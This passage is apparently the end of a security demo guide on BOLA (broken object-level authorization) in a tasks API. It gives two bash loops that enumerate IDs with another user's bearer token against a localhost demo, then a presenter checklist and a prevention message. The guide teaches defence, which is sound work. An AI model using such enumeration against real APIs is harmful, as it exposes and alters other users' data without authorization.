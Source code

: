 ## 💡 **ADDITIONAL ATTACK SCENARIOS** (Bonus Content)

### ID Enumeration Attack:
```bash
# Attacker tries sequential IDs
for i in {1..10}; do
  curl -X PUT http://localhost:3000/api/tareas/$i/completar \
    -H "Authorization: Bearer $BOB_TOKEN" \
    -H "Content-Type: application/json" \
    -d '{"comentario":"Enumeration attack"}' 2>/dev/null | grep "exitosamente" && echo "Task $i vulnerable"
done
```

### Mass Data Extraction:
```bash
# If GET endpoints were also vulnerable (not in this demo)
for i in {1..100}; do
  curl -X GET http://localhost:3000/api/tareas/$i \
    -H "Authorization: Bearer $BOB_TOKEN" 2>/dev/null | jq '.titulo' 2>/dev/null
done
```

---

## ✅ **DEMO CHECKLIST**

- [ ] Vulnerable branch deployed
- [ ] Test users created (Alice & Bob)
- [ ] Tasks created for both users
- [ ] BOLA attack demonstrated successfully
- [ ] Switched to secure branch
- [ ] Attack blocked in secure version
- [ ] Explained technical details
- [ ] Discussed prevention strategies
- [ ] Answered audience questions

---

**🎯 Key Message:** BOLA is the #1 API security vulnerability, but it's completely preventable with proper authorization checks at every layer of your application.
